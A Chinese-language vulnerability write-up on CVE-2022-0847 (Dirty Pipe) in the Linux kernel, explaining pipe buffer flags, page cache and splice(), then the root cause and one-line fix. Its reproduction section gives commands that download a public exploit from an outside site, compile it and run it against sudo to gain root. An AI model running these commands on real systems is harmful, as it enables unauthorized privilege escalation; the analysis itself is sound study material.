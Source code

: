 ```yaml
---
title: CVE-2022-0847
date: 2025-04-03
tags:
    - Linux Kernel
    - 漏洞分析
    - 漏洞复现
---
```


## CVE-2022-0847


### 漏洞原理


#### 管道(pipe)


pipe是linux内核提供的一个通信管道，可以通过pipe()函数创建，通过pipe()函数可以获取到两个文件描述符，分别负责接受数据和发送数据。pipe是以页的形式进行管理，通常pipe缓存空间总长度为65536字节，也就是16页,16个页以数组的方式进行存储，组成一个环形链表的结构(pipe->bufs[0]~pipe->bufs[15])，pipe有两个链表指针，一个负责写(pipe->head)，一个用来读(pipe->tail)。



通过对pipe进行写操作时，会调用到pipe的pipe_write()函数，下面主要对该函数进行简单介绍：  
该函数中存在两个逻辑：



1. 如果当前负责写的链表指针(pipe->head)指向的页的flags标志位存在PIPE_BUF_FLAG_CAN_MERGE，并且写入指定长度后不会出现跨页，那么就会继续往这个页中写入数据。
2. 如果不能在当前页续写，就会重新申请一个页，并且新页的flags标志位默认初始化为PIPE_BUF_FLAG_CAN_MERGE  
至于为什么第二点要把新页的flags标志位默认初始化为PIPE_BUF_FLAG_CAN_MERGE，因为对于pipe来说，默认状态下是允许对页进行续写的，这样可以节省空间。



#### Linux内核page cache机制


linux 文件缓存页(page cache)是Linux内核中用于缓存文件系统数据的一种机制，当一个进程访问一个文件时，内核会首先检查这个文件是否已经被缓存到页缓存中。如果文件已经被缓存，则内核会直接从页缓存中读取数据并返回给进程，避免了从磁盘中读取数据的开销。如果文件没有被缓存，则内核会将文件的数据读取到页缓存中，并从缓存中返回数据给进程，以提高性能。文件缓存页会在内核层的内存中存留一段时间(可能会一直持续到下次重启电脑)。



#### splice()系统调用


splice()系统调用是零拷贝技术的其中一种，可以自行学习零拷贝相关知识，但在此处对理解漏洞影响不大。  
splice零拷贝的方式就是，直接让pipe的缓存页指向文件缓存页，也就是使pipe->bufs[x]->page直接指向page cache。  
这一部分主要由splice()系统调用下的copy_page_to_iter_pipe()函数来实现  
但是copy_page_to_iter_pipe()函数中，在将pipe的缓存页指向文件缓存页后，并没有把pipe的缓存页的flags标志位初始化，形成了一个未初始化漏洞。



#### 漏洞场景


为什么说这是一个漏洞？考虑这样一个情景：



+ 申请一个pipe，并且向其中写入数据，把pipe的16个页全部写满一遍，那么根据pipe的pipe_write()函数的第二个逻辑，整个pipe的16个缓存页的flags标志位都会设置PIPE_BUF_FLAG_CAN_MERGE
+ 再通过读操作，把pipe的全部内容读取一遍，此时pipe将会被认定为一个空的管道(pipe是一个环形链表，全部读一遍之后两个链表指针又回到了初始状态)，但是pipe中的16个缓存页的flags标志位依旧设置有PIPE_BUF_FLAG_CAN_MERGE，并没有被清除掉。
+ 然后通过splice()系统调用，将文件A的文件缓存页传递给pipe的缓存页，假设该pipe的缓存页为pipe->bufs[2]，那么此时pipe-bufs[2]的flags依旧设置有PIPE_BUF_FLAG_CAN_MERGE，也就是说，如果继续向pipe写入数据，并且写入数据长度不会出现跨页的情况，就能继续向bufs[2]里续写，尽管bufs[2]此刻已被判断为是文件A
+ 继续向pipe中写入一段数据，只要写入的长度不会导致跨页，就会直接对内核中的文件缓存页的内容进行修改，之后如果访问文件A，那么根据Linux内核page cache机制，将会直接获取到内存中的文件A的内容。相当于实现了对可读文件暂时性的任意写的功能。



其实上述的情景就是一些EXP的攻击思路了，如果能够理解这个情景将会对之后理解EXP有很大帮助。



### 漏洞复现


```plain
wget https://haxx.in/files/dirtypipez.c
gcc dirtypipez.c -o dirtypipez
./dirtypipez `which sudo`
```



### 漏洞利用脚本分析


查看`https://haxx.in/files/dirtypipez.c`的源码进行分析：



prepare_pipe()函数负责将pipe的全部缓存页的flags设置PIPE_BUF_FLAG_CAN_MERGE,其实就是做了上述情景的前两步  
hax()函数负责向指定文件写入指定的内容，其思路与上述情景一致  
通过向具有SUID特权位的文件(这也是使用which sudo作为参数的原因)写入内容，然后执行，实现任意代码执行的效果。



### 漏洞修复


漏洞根本原因在于splice()系统调用的copy_page_to_iter_pipe()函数没有初始化flags，因此在其中加入这样一行代码即可：



```plain
buf->flags=0;
```

